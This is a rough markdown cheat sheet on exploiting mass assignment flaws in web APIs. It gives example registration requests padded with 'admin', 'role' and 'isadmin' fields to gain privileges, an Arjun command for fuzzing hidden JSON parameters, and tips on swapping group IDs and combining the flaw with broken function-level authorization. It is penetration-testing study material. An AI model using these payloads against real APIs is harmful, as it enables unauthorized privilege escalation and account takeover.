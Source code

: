 ## EXPLOITING MASS ASSIGNMENT
- It's a method to add unknown json variables in earch request. eg t. Account registration, profile editing, user management, and client management are all common functions that allow clients to submit input using the API.
1. Use Burp Param Miner Extention -> Guess Json Data
1. Arjun 
1. Documentation
1. HUNT
1. EG : 
```bash
# This
POST /api/v1/register
--snip--
{
"username":"hAPI_hacker",
"email":"hapi@hacker.com",
"pass


# To This
POST /api/v1/register
--snip--
{
"username":"hAPI_hacker",
"email":"hapi@hacker.com",
"admin": true,
"password":"Password1!"
```
1. While API sends Forgot Password Link To Email. Use Phone Number Instead To Create An Exception
1. Change GroupA as GroupB to access GroupB resources
#### Blind Mass Assignment Attacks
- Get Json data from Arjun And use it
```bash
POST /api/v1/register
--snip--
{
"username":"hAPI_hacker",
"email":"hapi@hacker.com",
"admin": true,
"admin":1,
"isadmin": true,
"role":"admin",
"role":"administrator",
"user_priv": "admin",
"password":"Password1!"
}
```

1. Automating Mass Assignment Attacks with Arjun and
Burp Suite Intruder
```bash
arjun --headers "Content-Type: application/json]" -u http://vulnhost.com/api/register -m JSON --include='{$arjun$}'
```
#### Combining BFLA and Mass Assignment
- Found BFLA 
- Attack BFLA With Mass Assignment To increase impact
1. eg
```bash
# From 
PUT /api/v1/account/update
Token:UserA-Token
--snip--
```